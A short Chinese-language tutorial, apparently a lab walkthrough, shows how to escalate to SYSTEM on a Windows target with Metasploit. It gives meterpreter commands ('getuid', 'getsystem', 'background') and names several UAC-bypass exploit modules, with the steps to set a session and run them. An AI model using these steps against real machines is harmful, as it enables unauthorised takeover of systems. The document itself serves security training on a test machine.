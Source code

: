 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

1 提权方法（Windows）查看当前获得用户的权限   meterpreter 中输入： getuid

![[1644493116225.png]]

方法一、 meterpreter中输入：getsystem

![[1644493125642.png]]

方法二、使用msf模块提权

要想提权必须是已经拿到meterpreter  然后将当前meterpreter 后台 meterprerer中输入  background

1、 查看可用模块  MSF终端中输入   search bypassuac   查看提权模块

2、 选择一个适合当前系统的提权模块  我这边使用的是win10系统

那我们使用：use  exploit/windows/local/bypassuac_windows_store_reg  尝试提权

这个模块不行就换一个 use exploit/windows/local/bypassuac_sluihijack

或者  use exploit/windows/local/bypassuac_dotnet_profiler


3 配置模块使用参数   终端内输入： show options

4 可以看到需要配置 session  终端内输入：set session  {需要提权的session id}

5 执行提权  终端内输入：run

6 获取到meterpreter后 我们在终端内 输入getuid 看实际还没有提权成功  需要在还终端内在输入 getsystem 获取权限 

7 获取权限完成后 输入getuid 即可看到  已经获取到SYSTEM 最高权限了

![[1644493163472.png]]

看到这个证明已经将权限提升成功

